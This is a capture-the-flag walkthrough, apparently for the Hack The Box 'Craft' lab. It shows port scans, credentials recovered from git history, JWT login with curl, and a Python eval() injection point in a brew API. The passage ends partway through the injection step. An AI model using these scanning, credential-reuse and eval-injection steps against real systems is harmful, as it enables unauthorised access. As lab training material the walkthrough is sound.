# HTB - Craft

**IP Address:** `10.129.66.210`  
**OS:** `Linux (Debian)`  
**Difficulty:** `Medium`  
**Tags:** #Gogs #Flask #JWT #PythonEval #Docker #MySQL #Vault #SSH

---
## Synopsis

Craft is a medium Linux machine exposing HTTPS (Nginx) for a craft-brew REST API and a Gogs instance. Source review of the public `craft-api` repository reveals API credentials in git history and an unsafe `eval()` on the brew `abv` field. Authenticating to the API and injecting into `abv` yields a reverse shell inside a Docker container. MySQL credentials from application settings dump additional users; Gilfoyle’s password unlocks a private `craft-infra` repo containing an SSH private key. SSH as `gilfoyle` retrieves the user flag and a Vault root token used to mint an SSH OTP for `root`.

---
## Skills Required

- Web and Git enumeration (`nmap`, browser, Gogs explore/commits)
- Reading Python/Flask API source and test scripts
- Basic HTTP authentication / JWT token usage with `curl`
- Linux post-exploitation in containers (filesystem, DB clients)

## Skills Learned

- Obtaining fresh API JWTs vs. reusing expired tokens from issues
- Exploiting Python `eval()` injection through a “validation” check
- Dumping credentials from an application MySQL backend
- Abusing HashiCorp Vault SSH OTP for root access

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.66.210
```


TTL `63` is consistent with a Linux host one hop away.

> Note: early enum screenshots below were taken on a previous machine IP (`10.129.65.222`) before the box was reissued to `10.129.66.210`.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.66.210 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports: `22,443,6022`.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,443,6022 10.129.66.210 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | OpenSSH 7.4p1 | Debian SSH |
| 443 | nginx 1.15.8 | HTTPS; cert CN `craft.htb` |
| 6022 | Golang x/crypto/ssh | Secondary SSH (Gogs) |

Add the vhosts from the certificate / UI links:

```bash
echo '10.129.66.210 craft.htb api.craft.htb gogs.craft.htb' | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 HTTPS / Craft landing page

Browse `https://craft.htb` (accept the self-signed cert). The About page describes a REST API for craft brews and exposes top-right links to the API and Git.

```bash
curl -k https://craft.htb/
```



---
### 2.2 Gogs enumeration

The Git icon leads to `gogs.craft.htb`. Open it and confirm the Gogs version, then explore public repositories and users.

```bash
curl -k https://gogs.craft.htb/
```






An open issue posts a sample brew request with an `X-Craft-API-Token` JWT. Decoding the JWT shows `HS256` and an `exp` of `1549385242` (2019-02-05) — the token is expired and unusable.





---
### 2.3 API Swagger surface

Open the API base path to review the documented auth and brew endpoints before touching authenticated calls.

```bash
curl -k https://api.craft.htb/api/
```



---
### 2.4 Source download and commit history

Download the `craft-api` zip from Gogs and review the tree locally (`app.py`, `dbtest.py`, `craft_api/`, `tests/`).


Commit history highlights interesting changes (auth on brew endpoints, “bogus ABV” fix, test script, DB connection test).



The commit `add test script` embeds working API credentials and demonstrates the auth header pattern:

```text
GET https://api.craft.htb/api/auth/login  (Basic Auth)
→ JSON token
→ X-Craft-API-Token: <token>
POST /api/brew/  with JSON {abv,name,brewer,style}
```



**Recovered:**

- `dinesh` / `4aUh0A8PbVJxgd`

Those credentials also work for Gogs login as `dinesh`.



Local `tests/test.py` matches that flow (login → check → brew with bogus/valid ABV).



---
## 3. Foothold

### 3.1 Fresh API token

Do not forge the expired issue JWT. Request a new token with Dinesh’s credentials, then validate it:

```bash
curl -k -u 'dinesh:4aUh0A8PbVJxgd' https://api.craft.htb/api/auth/login
# {"token":"eyJ..."}

TOKEN='<token>'
curl -k -H "X-Craft-API-Token: $TOKEN" https://api.craft.htb/api/auth/check
# {"message":"Token is valid!"}
```



Tokens expire quickly; refresh via `/api/auth/login` when needed.

---
### 3.2 ABV `eval()` injection → reverse shell

Source review finds the vulnerable check:

```bash
grep -RIn 'eval\|abv' craft_api/ tests/ --include='*.py'
# craft_api/api/brew/endpoints/brew.py:43:
#   if eval('%s > 1' % request.json['abv']):
```



Baseline behavior confirms the check is live:

```bash
curl -k -X POST https://api.craft.htb/api/brew/ \
  -H "X-Craft-API-Token: $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"name":"test","brewer":"test","style":"test","abv":"0.15"}'
# null

curl -k -X POST https://api.craft.htb/api/brew/ \
  -H "X-Craft-API-Token: $TOKEN" \
  -H "Content-Type: application/json" \
